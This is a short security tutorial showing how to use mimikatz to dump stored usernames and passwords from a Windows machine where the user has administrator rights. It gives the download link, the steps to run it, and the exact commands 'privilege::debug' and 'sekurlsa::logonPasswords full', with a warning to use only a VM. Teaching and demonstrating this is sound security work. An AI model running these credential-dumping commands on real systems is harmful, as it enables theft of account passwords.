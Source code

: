 = mimikatz - copy, paste, GO!
Steve Willson steve.willson@gmail.com

This tutorial demonstrates how easy it is to steal credentials from a local machine if you have administrative control of that machine.

More information about mimikatz can be found at: https://adsecurity.org/?page_id=1821

WARNING: *Only do this in a VM! Do not download mimikatz on a work computer.*

Download mimikatz

https://github.com/gentilkiwi/mimikatz/releases

Extract mimikatz

Execute the mimikatz.exe binary as Administrator.

Within the mimikatz window enter the following commands:

 $ privilege::debug

 $ sekurlsa::logonPasswords full

This should display a list of all the usernames and passwords that are stored on the computer.


